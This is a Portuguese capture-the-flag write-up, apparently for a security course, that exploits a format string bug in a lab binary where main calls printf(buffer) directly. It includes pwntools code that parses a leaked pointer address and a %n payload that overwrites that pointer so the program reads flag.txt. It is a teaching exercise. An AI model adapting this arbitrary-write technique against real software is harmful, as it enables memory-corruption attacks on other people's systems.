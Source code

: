 # Format Strings

## Setup

- Foi executado o comando `checksec` para identificar as proteções ativas no binário fornecido.

![image](screenshots/CTF6_1.png)

- As proteções presentes permitiram explorarmos vulnerabilidades de escrita arbitrária na memória.

## Reconhecimento

- O código fonte foi analisado para identificar as vulnerabilidades.

1. **Existência de Ficheiros Lidos**

   - A função `readtxt` lê um ficheiro chamado `"rules.txt"` ao inicializar o programa.
   - O nome do ficheiro pode ser manipulado pela exploração da vulnerabilidade de format string.

2. **Existência de `format string` Vulnerável**

   - Na função `main`, o programa usa diretamente `printf(buffer)` para exibir o input do utilizador, sem realizar validação.
   - Isso permite explorar a vulnerabilidade de **format string** para ler ou sobrescrever endereços de memória.

3. **Ação Potencial**

   - Substituir o nome do ficheiro lido de `rules.txt` para `flag.txt` através de manipulação da memória.

## Exploit

- O programa fornece o endereço da variável `fun` na memória:

```c
printf("I will give you an hint: %x\n", &fun);
```

- Extraímos então esse endereço utilizando regex

```py
match = re.search(r'I will give you an hint: (0x)?([0-9a-fA-F]+)', output)
if match:
    fun_addr = int(match.group(2), 16)
    print(f"[+] Endereço de fun extraído: {hex(fun_addr)}")
else:
    print("[-] Falha ao extrair o endereço de fun")
    r.close()
    exit()
```

- Foi criado um payload para modificar o valor do pointer `fun` para que a função `readtxt` seja chamada novamente com `flag.txt`:

```py
payload = b"./flag.." + p32(fun_addr) + b"%8x" + b"%.134518673x%n"
```
1. `./flag..`: O início do nome flag seguido por bytes de ajuste.
2. `p32(fun_addr)`: Endereço do ponteiro fun.
3. `%8x`: Preenche a pilha para alcançar o local correto de escrita.
4. `%.134518673x%n`: Ajusta o contador para escrever o valor necessário no endereço especificado.

- O payload foi enviado ao serviço remoto através do comando:

```py
r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)

r.interactive()
```

- Foi possível então encontrarmos a flag.

![image](screenshots/CTF6_2.png)

